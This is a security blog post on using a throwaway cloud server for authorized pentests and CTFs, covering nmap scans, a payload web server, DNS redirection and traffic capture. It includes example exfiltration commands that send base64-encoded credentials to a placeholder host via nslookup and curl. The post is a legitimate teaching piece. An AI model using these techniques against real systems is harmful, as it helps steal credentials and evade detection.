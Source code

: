 ```yaml
---
title: "Dynamic Public Cloud Server for the Win"
date: 2020-01-03 09:00:00 +0000
layout: post
author: OverCast
twitter: "https://twitter.com/DefCon864"
permalink: blog/dynamic-public-cloud-server-ftw.html
tags: [cloud, dns, intercept traffic, CTF, Linode]
---
```

> This is for the pirates who clap
> And love the sound
> Attacking from the cloud
> Then we're back and underground
~ Dual Core, All The Things

TL;DR.
  - Prevent your home IP from being banned
  - Simple, cheap Linux server with dynamic, public IP address
  - Route DNS, HTTP, TLS, or other traffic you want to intercept
  - Host services needed for research, CTF, or pentest engagement

# Overview
There are many reasons why masking your traffic is important.  One specific case relates to the tasks we perform during an authorized hack or researching a potential vulnerability.  Scanning, trial 'n error discovery and exploitation can generate lots of traffic which can lead to your home IP address finding its way on one or more black lists.  Getting a new public IP address for su casa is a pain in the neck while your family enjoys the throwback non-Internet lifestyle of 1985.  

I recently needed to run several external public services but did not want to open any holes in my home perimiter or stand up a domain.  Those would be overkill to validate what I was researching, validate data exfiltration and perimiter leak vulnerabilities.  My requirements are simply: a dynamic public IP address in the wild to host DNS and web servers, SSH access to inspect DNS and TLS traffic.  This would work for any online CTF or pentest engagement where you want to validate the target ability to communicate external to the organization.

The solution I went with -and it worked really well- was to spin up a [Linode Nanode server](https://www.linode.com/products/nanodes/).  The full engagement cost only $0.09 for 10 hours of system uptime.  In many respects this write-up is cloud vendor agnostic.  While I use [Linode](https://www.linode.com) here you can follow the same steps on a different provider with minor variation.

 __*Warning:*__  This is not a replacement for a proper VPN or Tor usage (proxychains).  It is a quick 'n fast means with little commitment to separate my public IP from the equation.

## Setup
Signing up for the cloud provider is a straight forward process.  No surprises here.  Creating a Nanode is just two steps:
1. Click __Create__
![create](/images/overcast/dynamic-public-cloud-server-ftw/01-create-a-nanode.png){:height="50%" width="50%"}
2. Define your settings
* Pick a __distro__
* Select a __Region__
* __Be careful of the default!__  Under Linode Plan select the __Nanode__ tab and pick the only option at the hourly rate of $0.0075.  The default, Standard plans are more expensive.
* Don't worry about the label and tags.  This system won't live long.
* Set your SSH keys or a root password for connecting.
* Click __Create__
![settings](/images/overcast/dynamic-public-cloud-server-ftw/02-nanode-settings.png){:height="50%" width="50%"}

Once you click the create button it takes a few seconds for the new box to provision and boot.  The __Summary__ page lists the IPv4 and IPv6 addresses.
![boot](/images/overcast/dynamic-public-cloud-server-ftw/03-boot.png){:height="50%" width="50%"}

Two console web shells options are provided by Linode (Weblish and Glish) but you'll want to use your own SSH session from your box.  Once you gain SSH access you can do all the normal sysadmin things to scaffold your platform.  I was raised by graybeards so the lack of maintaining tools such as netstat and ifconfig is disconcerting to say the least.  Yet I will resist the urge to install net-tools.  This host is bare bones right now so let's add what we need.

```bash
apt-get -y update
apt-get -y install nmap socat dnsmasq tcpdump
```

For those wondering, at this point your network transfer usage will be around 94 kb.  If you run an apt-get -y upgrade that number will change.

## So what can I do with this?  Here are some sample scenarios.
### Scan Your Home Public IP Address
You now have an external point of presence why not take a look at how the world sees you?  This is probably one of the most practical scenarios for anyone in IT.  It's always a good idea to get a street view of your home network.  Anything showing up that you didn't expect?
```nmap -T3 -sC -sV -Pn -p1-65535 HOME_IP```

### Public Web Server for Exploits
The simplest solution, host a temporary web server to test or exploit a vulnerability.  In this case the Nanode server runs python's SimpleHTTPServer hosting a desired payload.
```bash
mkdir badweb
cd badweb
echo "my bad payload for exploiting CSRF or some such vector" > payload.html
```
Start the web server to serve up those delicious payloads of wonder.
```python -m SimpleHTTPServer 80```
Or install Apache and operate out of /var/www/html.  The researcher triggers the vulnerability causing the target to call the Nanode web server's payload.  If this lights up a sysadmin radar or triggers a ban, no worries, destroy this nanode and start over.

### DNS Server
Name resolution plays an important role on a network.  If a network has improper egress filtering DNS can be used for exfiltration or to route internal targets to exploits hosted on your web server.  In my case I had control of the resolution process and wanted to route internal web server requests to my public web server.

On the nanode edit __/etc/dnsmasq.conf__:
* Uncomment the "__#no-resolv__" line (around line 54) so that your DNS server won't send requests upstream.
* Uncomment and modify line 131 to point to your local file for dnsmasq host resolution instead of /etc/hosts.
    ```addn-hosts=/etc/dnsmasq.hosts```
* Create the __/etc/dnsmasq.hosts__ file and set your bad web server IP address (eg. 1.2.3.4) to the hostname of the internal good web server.  This will resolve the good web server name to your bad web server.
```1.2.3.4  goodwebserver.company.com```

The addn-host file (dnsmasq.hosts) can be named anything and has the same content format as /etc/hosts.  Be aware though Linux can default to running its preinstalled dnsmasq as a service.  So if you attempt to start manually it will throw errors.  If you want greater control the default service can be stopped ```service dnsmasq stop``` and run manually ```dnsmasq --no-daemon --log-queries --log-facility=/var/log/dnsmasq.log```.  When not run in the background (or without tcpdump) the log file can be tailed to show any DNS queries ```tail -f /var/log/dnsmasq.log``` or parsed by one of your amazing scripts.

### Inspect Traffic
```tcpdump udp port 53 or tcp port 80 or tcp port 443```
For more verbosity use ```-v``` or ```-vv``` for a flood of connection information.  When you are in security researcher mode it helps to limit the scope to the specific protocol and port being evaluated.  This prevents unnecessary noise and keeps the content concise for the write-up.

If you have data to exfiltrate, such as ```echo "user:admin;pass:pfi9503" | base64 | sed 's/=//g'```, send it to your DNS server.
```nslookup dXNlcjphZG1pbjtwYXNzOnBmaTk1MDMK NANODE_DNS_IP_ADDRESS```
Your DNS server or tcpdump shows the query which you know to be base64 encoded.  When decoded this reveals not a hostname but the internal data ```user:admin;pass:pfi9503```.
Or if you only control a remote web server you can pull similar method from its logs by sending a request with the encoded data to exfiltrate.
```curl https://NANODE_IP_ADDRESS/superfuntime/dXNlcjphZG1pbjtwYXNzOnBmaTk1MDMK```
I use superfuntime as a control check for a script parsing the web log file to know when to decode.  It's not an actual directory or route and keeps the script from parsing any Internet noise. 

For the blue teamers among us this may be a great listening post to research the noise.

### Public CTF Box for DEF CON Group Meetings
While writing this post I thought of another use case.  Now that our meetings are both IRL and online this could be an interesting scenario for future DC864 meetings.  Instead of just having a CTF / vulnerable learning target on-site we can host it on a Nanode for both local and remote participants to use.  To reduce the traffic I'll probably pre-recon the box and provide it to the participants.  So if we cover a specific vector it can be the focus of the target and talk.  Even though there is a muscle memory learning benefit from recon to exploit to privelege escalation, etc. being hyper focused during meetings (eg. SQLi, LFI, etc.) could be a good thing.  Need to put a bit more brainery into this area before release so stay tuned or contribute ideas as you see fit.

Happy hacking everyone.